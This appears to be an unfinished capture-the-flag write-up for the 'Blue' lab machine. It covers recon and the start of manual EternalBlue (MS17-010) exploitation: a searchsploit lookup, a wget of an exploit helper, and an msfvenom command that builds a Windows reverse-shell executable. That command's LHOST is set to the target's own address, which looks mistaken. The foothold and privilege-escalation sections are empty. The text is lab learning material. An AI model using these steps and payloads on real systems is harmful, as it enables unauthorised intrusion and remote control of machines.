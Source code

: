 # Blue
Name: Blue
Date:  
Difficulty:  Easy
Description:  
Better Description:  
Goals:  OSCP Prep, rewrite a python exploit
Learnt:

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 ttl=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 ttl=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 ttl=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually.
I looked up manual exlpoitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/).
Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python.

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current workign directory
```
![searchsploit](Screenshots/searchsploit.png)

The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

      

